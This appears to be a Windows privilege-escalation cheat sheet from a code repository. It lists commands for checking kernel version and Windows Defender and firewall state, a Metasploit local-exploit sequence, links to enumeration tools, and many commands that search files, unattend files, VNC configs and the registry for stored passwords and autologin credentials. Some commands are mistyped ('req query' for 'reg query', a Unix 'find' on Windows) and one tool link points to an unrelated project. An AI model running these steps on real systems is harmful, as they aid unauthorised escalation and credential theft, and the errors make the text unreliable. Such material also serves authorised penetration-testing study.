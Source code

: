   [Kernel exploits](#Kernel)
- [Antivirus](#Antivirus)
- [Metasploit](#Metasploit)
- [Tools](#Tools)
  - [Powershell](#Powershell)
  - [Executables](#Executables)
  - [Other](#Other)
- [Hardcoded passwords](#Hardcoded_passwords)
  - [Search for password](#Search_for_password)
  - [Search passwords in files](#Passwords_in_files)
  - [Read registry for passwords](#Read_registry)
  - [Search password invregistry](#Search_in_registry)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Kernel

### Check Kernel version
```
systeminfo
``` 

### Windows kernel exploits resources:
- https://github.com/SecWiki/windows-kernel-exploits
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Antivirus
 
### Check AV status
```
sc query windefend
```

### Check all services status
```
sc queryex type= service
```

### Check firewll status
```
netsh advfirewall firewall dump
```
```
netsh firewall show state
```
```
netsh firewall show config
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Metasploit

### local exploit suggester
```
meterpreter> run post/multi/recon/local_exploit_suggester
meterpreter> background
msf> use exploit/windows/local/ms10_015_kitrap0d (for example)
msf> options
msf> set session x
msf> set lhost
msf> set lport
msf> run
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Tools

### PowerShell:
- Sherlock.ps1
  - https://github.com/sherlock-project/sherlock

- PowerUp.ps1
  - https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp

- jaws-enum.ps1
  - https://github.com/411Hall/JAWS

### Executables
- winPEAS.exe
  - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

- Seatbelt.exe
  - https://github.com/GhostPack/Seatbelt

- Watson.exe
  - https://github.com/rasta-mouse/Watson

- SharpUp.exe

### Others
- Exploit Suggester(metasploit)
- windows-exploit-suggester.py (local)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Hardcoded_passwords

## Search_for_password
```
find /si password *.txt
find /si password *.xml
find /si password *.ini
```
## Passwords_in_files
```
dir /s *pass* == *cred* == *vnc* == *config*
```
## Find passwords in all files
```
findstr /spin "password" *.*
```

## Read_in_files
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```
## Read_registry
```
VNC
  req query "HKCU\SOFTWARE\ORL\WinVNC3\Password"

Windows autologin
  req query "HKCU\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

SNMP Parameters
  req query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

Putty
  req query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions"
```
## Search_in_registry
```
req query HKLM /f password /t REG_SZ /s

req query HKCU /f password /t REG_SZ /s
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------

